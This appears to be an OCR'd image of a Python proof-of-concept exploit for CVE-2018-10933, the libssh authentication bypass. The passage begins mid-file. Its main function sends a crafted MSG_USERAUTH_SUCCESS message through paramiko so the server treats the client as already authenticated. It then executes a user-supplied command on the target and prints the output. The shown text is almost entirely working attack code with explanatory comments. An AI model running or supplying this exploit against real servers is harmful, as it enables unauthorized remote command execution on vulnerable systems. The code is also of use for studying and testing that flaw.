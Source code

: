 ```
parser.add_argument('-log', '--logfile', help='Logfile to write conn logs', default="paramiko.log")

args = parser.parse_args()


def BypasslibSSHwithoutcredentials(hostname, port, command):

    # create a new socket    
    sock = socket.socket()
    try:
        # connect socket to specified host and port
        sock.connect((str(hostname), int(port)))

        # create message, and append MSG_USERAUTH_SUCCESS byte - this is the vulnerability
        # when libssh recieves this byte, it effectively bypasses all authentication and 
        # thinks the user was already successfully authenticated.
        # more detail can be found in the CVE entry here:
        # https://nvd.nist.gov/vuln/detail/cve-2018-10933 
        message = paramiko.message.Message()
        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)

        # create an ssh client for the socket using paramiko
        transport = paramiko.transport.Transport(sock)
        transport.start_client()
        # send the crafted message
        transport._send_message(message)
    
        # execute the command specified
        spawncmd = transport.open_session(timeout=10)
        spawncmd.exec_command(command)
        
        # open the stdout of the connection with a 2048 byte buffer
        stdout = spawncmd.makefile("rb", 2048)
        # read the output and decode it to text
        output = stdout.read().decode('utf-8')
        # close the output buffer
        stdout.close()
        
        # print the output to the terminal
        print(output)
        
        return 0

    # catch all exceptions and print ssh related exceptions
    except paramiko.SSHException as e:
        print(e)
    except socket.error:
        print("Unable to connect.")
    return 1


def main():
    # try to use argparse to parse the arguments
    try:
        hostname = args.host
        port = args.port
        command = args.command
    # print usage and exit otherwise
    except:
        parser.print_help()
        exit(1)
    # if correct arguments, run the exploit.
    BypasslibSSHwithoutcredentials(hostname, port, command)
```